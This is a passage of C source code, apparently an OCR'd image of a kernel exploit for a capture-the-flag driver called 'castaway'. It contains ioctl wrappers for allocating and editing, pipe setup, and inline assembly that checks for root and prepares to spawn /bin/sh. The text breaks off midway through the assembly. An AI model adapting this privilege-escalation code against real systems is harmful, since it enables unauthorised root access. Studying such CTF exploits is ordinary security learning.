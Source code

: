 ```c

enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

struct timespec timer = {
    .tv_sec = 1145141919,
    .tv_nsec = 0,
};

int dev_fd;
int cmd_pipe_req[2], cmd_pipe_reply[2], check_root_pipe[2];
char bin_sh_str[] = "/bin/sh";
char *shell_args[] = { bin_sh_str, NULL };
char child_pipe_buf[1];
char root_str[] = "\033[32m\033[1m[+] Successful to get the root.\n"
                  "\033[34m[*] Execve root shell now...\033[0m\n";

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error: %s\033[0m\n", msg);
    exit(EXIT_FAILURE);
}

void alloc(void)
{
    ioctl(dev_fd, 0xCAFEBABE);
}

void edit(int64_t index, size_t size, void *buf)
{
    struct castaway_request r = {
        .index = index,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xF00DBABE, &r);
}

int waiting_for_root_fn(void *args)
{
    /* we're using the same stack for them, so we need to avoid cracking it.. */
    __asm__ volatile (
        "   lea rax, [check_root_pipe]; "
        "   xor rdi, rdi; "
        "   mov edi, dword ptr [rax]; "
        "   mov rsi, child_pipe_buf; "
        "   mov rdx, 1;   "
        "   xor rax, rax; " /* read(check_root_pipe[0], child_pipe_buf, 1)*/
        "   syscall;      "
        "   mov rax, 102; " /* getuid() */
        "   syscall; "
        "   cmp rax, 0; "
        "   jne failed; "
        "   mov rdi, 1; "
        "   lea rsi, [root_str]; "
        "   mov rdx, 80; "
        "   mov rax, 1;"    /* write(1, root_str, 71) */
        "   syscall; "
        "   lea rdi, [bin_sh_str];  "
```